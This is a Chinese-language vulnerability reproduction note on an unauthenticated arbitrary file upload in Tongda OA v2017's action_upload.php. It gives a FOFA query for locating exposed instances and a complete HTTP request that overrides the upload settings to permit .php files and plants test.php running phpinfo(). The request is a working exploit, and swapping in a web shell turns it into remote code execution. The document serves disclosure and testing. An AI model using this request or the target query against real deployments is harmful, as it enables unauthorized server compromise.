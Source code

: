 ## 漏洞描述

通达OA v2017 action_upload.php 文件过滤不足且无需后台权限，导致任意文件上传漏洞

## 漏洞影响

```
通达OA v2017
```

## FOFA

```
app="TDXK-通达OA" 
```

## 漏洞复现

访问获取版本信息

![img](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091053148.png)

发送请求包上传任意文件

```php
POST /module/ueditor/php/action_upload.php?action=uploadfile HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 893
Content-Type: multipart/form-data; boundary=---------------------------55719851240137822763221368724
X_requested_with: XMLHttpRequest
Accept-Encoding: gzip

-----------------------------55719851240137822763221368724
Content-Disposition: form-data; name="CONFIG[fileFieldName]"

ffff
-----------------------------55719851240137822763221368724
Content-Disposition: form-data; name="CONFIG[fileMaxSize]"

1000000000
-----------------------------55719851240137822763221368724
Content-Disposition: form-data; name="CONFIG[filePathFormat]"

tcmd
-----------------------------55719851240137822763221368724
Content-Disposition: form-data; name="CONFIG[fileAllowFiles][]"

.php
-----------------------------55719851240137822763221368724
Content-Disposition: form-data; name="ffff"; filename="test.php"
Content-Type: application/octet-stream

<?php phpinfo();?>
-----------------------------55719851240137822763221368724
Content-Disposition: form-data; name="mufile"

submit
-----------------------------55719851240137822763221368724--
```

![img](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091053293.png)

再访问上传的文件 

![img](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091053249.png)